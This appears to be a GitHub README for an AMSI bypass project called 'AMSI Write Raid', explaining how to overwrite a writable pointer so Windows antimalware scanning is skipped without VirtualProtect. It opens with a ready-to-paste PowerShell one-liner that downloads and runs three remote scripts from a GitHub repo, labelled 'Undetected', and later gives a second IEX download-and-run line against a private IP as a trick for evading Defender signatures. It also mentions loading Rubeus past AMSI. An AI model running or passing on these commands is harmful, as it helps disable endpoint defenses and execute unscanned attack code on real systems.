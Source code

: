 
## One liner Signature Bypass for the bypass

✅ Undetected => More info in AvBypassTricks Folder


```powershell
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/refs/heads/main/AvBypassTricks/hello.ps1"); IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/refs/heads/main/AvBypassTricks/hello2.ps1"); IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/refs/heads/main/AvBypassTricks/hello3.ps1"); MagicBypass;
```

__AMSI WRITE RAID VULNERABILITY__

This is a vulnerability discovery for bypassing Antimalware Scan Interface (AMSI) and I will call it AMSI Write Raid, I mean why not?

Usually all the memory addresses pointing to the functions and data within the DLLs that the program depends on are inside the import address table (IAT) and they are marked as read only, so whenever you want to tamper with them, you have to use VirtualProtect api to mark the page as writable first.

And so EDR's will monitor the VirtualProtect API to see if the API call is doing something suspicious or not. 

But strangely, I discovered a writable entry that you can overwrite without the need of `VirtualProtect` API, that can bypass the whole AMSI process.

And because I am not using VirtualProtect API to change the memory protection, as it is already marked as Read/Write, it will likely bypass AV's and EDR's.

Note: Most AV's supports and uses the AMSI functionality developed by Microsoft, so bypassing AMSI => Bypasses not only defender but all of them.

Tested on win11 Build 22631 (Latest at the time of writing) and windows Preview.

**Update 14/05/2024**

I wanted to mention that this was not the only writable entry that you can overwrite to bypass AMSI with the same concept. I disovered that most of the highlighed entries (vulnerable_entries.png) in the call stack image below are as well vulnerable to the same vulnerability discussed in the paper / blog (writable_entries_part_1.png). The entries are not write protected, so overwriting any of the call pointers would bypass Amsi as well.

![Vulnerable Entries](vulnerable_entries.png)

![Writable Entries](writable_entries_part_1.png)

**Update 28/10/2024**

This POC is still working, but it is signatured by Defender after being published for some time.

A simple trick To bypass Signature => is to split the script to different files and call them 1 by 1  :)

Something like this:

```
IEX (New-Object System.Net.WebClient).DownloadString("http://192.168.26.141/part1.ps1");IEX (New-Object System.Net.WebClient).DownloadString("http://192.168.26.141/part2.ps1");IEX (New-Object System.Net.WebClient).DownloadString("http://192.168.26.141/part3.ps1");
```

### CLR.DLL Vulnerability ###
The same vulnerability exists in clr.dll (PW5) and coreclr.dll (PW7) which allows you to load c# assemblies into Powershell at runtime without being blocked by AMSI.

After using the POC.ps1, if you try to load rubeus for example, you will get blocked by AMSI, even though the error is a bit confusing but this is because of AMSI.

![CLR Error](clr_error.png)

You have to do the same analysis that I did, and your starting point is always amsi!AmsiScanBuffer.

![CLR Entries](clr_entries.png)

![CLR Writable Entry](clr_writable_entry.png)

The call __guard_dispatch_icall_fptr__ is added as part of a security feature that was created to combat memory corruption vulnerabilities. By placing tight restrictions on where an application can execute code from, it makes it much harder for exploits to execute arbitrary code through vulnerabilities such as buffer overflows. that security feature is called __Control Flow Guard__.

https://learn.microsoft.com/en-us/windows/win32/secbp/control-flow-guard

_CFG Call_ will take the value inside rax which is the location of _AmsiScanBuffer_ pointer and validate it using a set of bitmaps if that address is allowed to run or not and then call it (if allowed).

while __Control Flow Guard (CFG)__ is outside the scope of this blog, it will not concern us, as we are not changing the location of the pointer that is being called, so we will not be triggering CFG.

The Full Bypass:

![CLR Bypass POC](clr_poc.png)

I will not publish the POC for clr.dll, I will keep it as an exercise :)
